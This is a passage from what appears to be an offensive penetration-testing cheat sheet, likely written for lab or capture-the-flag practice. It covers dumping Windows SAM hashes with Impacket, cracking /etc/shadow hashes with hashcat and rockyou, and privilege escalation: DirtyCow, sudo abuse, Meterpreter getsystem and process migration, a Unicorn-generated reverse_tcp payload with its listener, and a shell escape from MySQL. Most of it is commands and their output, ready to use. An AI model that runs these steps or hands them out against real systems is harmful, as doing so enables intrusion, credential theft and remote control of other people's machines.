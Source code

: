   ```
  Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

  [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  User:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
  [*] Cleaning up... 
  ```
* If we able to extract /etc/passwd and /etc/shadow file we can use
  * Command : `unshadow <PASSWD> <SHADOW>`
  * Use Hashcat to crack the password, here 500 is for format `$1$` Replace it accordingly.
  ```
  hashcat -m 500 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt --force
  ```
  
# Privilige Escalation
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
* [Lin Enum Script](https://github.com/rebootuser/LinEnum)
* [Unix Priv Check](https://github.com/pentestmonkey/unix-privesc-check)
* To Use DirtyCow : [Link](https://dirtycow.ninja/) -- Maybe more specifically : [Dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
* Trick to paste code in VI, with format on remote machines `set paste`
* Try `sudo -l` to check what can be run with no-password.
* For windows:
  * In meterpreter shell try `getsystem`
  * In meterpreter shell try `background` and then follow rest of commands...
  * search suggester
  * `use post/multi/recon/local_exploit_suggestor` (Example only)
  * `show options`
  * `set session 1`
  * `run`
  * If worked fine, else Try follow rest of commands...
  * Use this link: [FuzzySec Win Priv Exec](https://www.fuzzysecurity.com/tutorials/16.html)
  * Use this method: [Sherlock](https://github.com/rasta-mouse/Sherlock)
  * If current process doesnt own Privs, use `migrate <PID>` to get more Priviliges in Meterpretor.
* For Linux:
  * If `sudo -l` gives something like this...
  ```
  User www-data may run the following commands on bashed:
    (enemy : enemy) NOPASSWD: ALL
  ```
  We can try like below
  ```
  $ sudo -u enemy /bin/bash
  id
  uid=1001(enemy) gid=1001(enemy) groups=1001(enemy)
  ```
  * To get Shell on Windows use [Unicorn](https://github.com/trustedsec/unicorn.git)
  ```
  root# /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
  [*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
  root# msfconsole -r unicorn.rc 
  [*] Started reverse TCP handler on <HOST_IP>:3333 
  msf5 exploit(multi/handler) >         
  ```
  * Get Shell from MYSQL
  ```
  mysql> \! /bin/sh
  ```
  